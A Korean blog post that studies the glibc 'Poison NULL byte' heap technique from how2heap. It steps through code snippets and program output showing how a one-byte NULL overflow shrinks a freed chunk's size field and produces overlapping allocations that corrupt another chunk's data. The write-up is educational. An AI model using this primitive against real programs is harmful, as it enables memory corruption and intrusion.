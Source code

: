 ```yaml
---
layout: post
title: "Poison NULL byte"
date: 2016-06-13 16:46:53 +0900
comments: true
categories: 
---
```


[Shellphish 가 쓴 힙 공격 문서중에 하나, Poison NULL byte](https://github.com/shellphish/how2heap/blob/master/poison_null_byte.c) 를 읽고 정리한다.

* 참고 문서: [Glibc Adventures: The Fogotten Chunks](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)

우선 a,b,c 를 차례로 alloc 한다.

Ubuntu 에서 0x100 을 을 alloc 하고, `malloc_usable_size()` 를 해보면, 0x108 이 나온다. Rounding 때문인지, 요청한 것보다 메모리 영역이 더 잡혔다.

```
a = (uint8_t*)malloc(0x100);
b = (uint8_t*)malloc(0x200);
c = (uint8_t*)malloc(0x100);
```

* 이제 `uint64_t* b_size_ptr = (uint64_t*)(b-8);` 을 통해서, `struct malloc_chunk` 구조체 멤버인 `INTERNAL_SIZE_T size;` 를 가리키는 포인터를 만든다.

* 이 구조체를 이용해 b.size 를 찍어볼 수가 있는데,

* 0x211 로 나온다. `(0x200 + 0x10) | prev_in_use` 가 되는 것. 

* 이제 `a[real_a_size] = 0;`  을 통해서, b.size 의 하위 1 바이트를 0 으로 만든다.

* b.size 를 찍어보면 이제 0x210 으로 나온다.

* 이제 c.prev_size 를 찍어본다. b 를 free 했기때문에, 유효한 필드가 되버렸다. 찍으면 0x210 이 나온다.

* 이제 `b1 = malloc(0x100);` 을 한다. 그러면 예전 b 자리에 할당될 것이다.

만약 `a[real_a_size] = 0;` 을 안했다면, 다음과 같이 c.prev 가 제대로 update 되는데... (0x200 으로 앨록한 자리에 0x100 을 앨록했으니, c 앞에 free chunk 가 존재)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x100
c' 0x100
c'' 0
```

`a[real_a_size] = 0;`... 즉 앞의 청크에서 NULL 바이트 오버플로우가 일어났다면... 그래서 b.size 의 하위 1 바이트를 0 으로 만들었다면 무슨 일이 벌어지는가? (`c'` 는 `c - 16`, `c''` 는 `c - 32`)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x210
c' 0x210
c'' 0xf0
```

c.prev_size 가 제대로 update 되지 않는다. 0x210 -> 0x100 으로 줄어야하는데. 대신 엉뚱한데 0f0 이 써졌다.

정리하면, `a|b|c` 가 앨록된 상황에서, b 가 프리되고, a 가 overflow 되면서 b.size 의 1 바이트가 0 으로 바뀌었다. 그랬더니, 추후 앨록을 하니까 c 의 메타데이터가 연쇄반응으로 깨져버렸다.

이제,

* 현재 `a|b1|(free)|c` 로 앨록된 상황이다. c.prev_size 는 지나치게 크게 되어있다. b1 까지도 free 하다고 잘못 생각하고 있는 상황.

이제 `b2` 를 앨록한다.

* 그럼 `a|b1|b2|(free)|c` 로 앨록된 상황이다. 여전히 c.prev 는 잘못되어있다.

* 여기서 `free(b1); free(c);` 를 해준다음에 꽤 큰 사이즈를 `d` 로 앨록 요청하면, 상식적으로 `b2` 다음에 존재하던 free chunk 부터 앨록되어야 하나, 메모리 매니저는 `b == b1` 자리에 앨록한다. `d` 와 `b2` 가 overlapping 되는 셈.

* 이제 `d` 에다가 쓰인 데이터는 `b2` 가 가리키는 메모리를 를 corrupt 시킨다.

* 교훈은, malloc 에서 경계를 넘어가서, 1 바이트만 NULL 로 overwrite 되어도 메모리 커럽션이 일어날 수 있다는 것.

`b.size` 의 `prev_in_use` 가 overwrite 되지 않았을 경우,

```
~ » ./a.out                                                      z@ubuntu
a: 0x12f4010
real_a_size: 0x108
b: 0x12f4120
real_b_size: 0x208
c: 0x12f4330
addr of b_size_ptr: 0x12f4118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x12f4320
c.prev_size is 0x210
b1: 0x12f4120
c.prev_size is 0x100
c - 8 0x110
c - 16 0x100
c - 24 0
c - 32 0
b2: 0x12f4230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x70
c - 8 0x110
c - 16 0x70
c - 24 0
c - 32 0
d: 0x12f42c0
New b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

이번에는 `b.size` 의 `prev_in_use` 가 corrupt 되었을 경우, `b2` 가 corrupt 됨을 알 수 있다.

```
a: 0x1655010
real_a_size: 0x108
b: 0x1655120
real_b_size: 0x208
c: 0x1655330
addr of b_size_ptr: 0x1655118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
b.size after free: 0x200
addr of c_prev_size_ptr: 0x1655320
c.prev_size is 0x210
b1: 0x1655120
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0xf0
b2: 0x1655230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0x60
d: 0x1655120
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```

